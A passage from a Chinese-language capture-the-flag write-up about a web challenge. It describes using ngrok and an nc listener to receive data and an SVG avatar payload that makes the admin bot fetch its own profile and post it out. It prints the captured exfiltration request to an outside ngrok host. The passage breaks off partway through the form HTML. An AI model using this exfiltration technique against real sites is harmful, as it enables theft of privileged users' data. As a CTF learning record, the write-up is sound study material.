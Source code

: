 這邊使用了`ngrok`來expose local server，不得不嘲笑一下自己的網路知識...那時候一直在google `nc http echo web server`，結果問題是根本沒有public ip，鬼打牆了好久。
  
總結一下利用步驟：
1. 使用`ngrok`取得對外server
2. 觸發admin端去GET自己的profile
3. 把content丟給server
4. server forward給localhost(nc之類的)

```html
POST / HTTP/1.1
Host: 59d95a27.ngrok.io
Content-Length: 1808
Origin: http://web50.zajebistyc.tf
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/72.0.3626.122 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Referer: http://web50.zajebistyc.tf/avatar/688787d8ff144c502c7f5cffaafe2cc588d86079f9de88304c26b0cb99ce91c6/payload.svg
Accept-Encoding: gzip, deflate
X-Forwarded-For: 37.187.92.182

Hi admin
<img src="//avatar/default/duck.png" style="max-width: 100px; max-height: 100px">
<form method="POST" enctype="multipart/form-data">
    <div>
        Firstname:
    <input type="text" name="firstname" value="Janusz">
    </div>
    <div>
        Lastname:
    <input type="text" name="lastname" value="Nosacz">
    </div>
    <div>
        Shoesize:
    <select name="shoesize" value=40>
        <option value="30">30</option>
        <option value="31">31</option>
        <option value="32">32</option>
        <option value="33">33</option>
        <option value="34">34</option>
        <option value="35">35</option>
        <option value="36">36</option>
        <option value="37">37</option>
        <option value="38">38</option>
        <option value="39">39</option>
        <option value="40">40</option>
        <option value="41">41</option>
        <option value="42">42</option>
        <option value="43">43</option>
        <option value="44">44</option>
        <option value="45">45</option>
        <option value="46">46</option>
        <option value="47">47</option>
        <option value="48">48</option>
        <option value="49">49</option>
        <option value="50">50</option>
        <option value="51">51</option>
        <option value="52">52</option>
        <option value="53">53</option>
        <option value="54">54</option>
        <option value="55">55</option>
        <option value="56">56</option>
        <option value="57">57</option>
```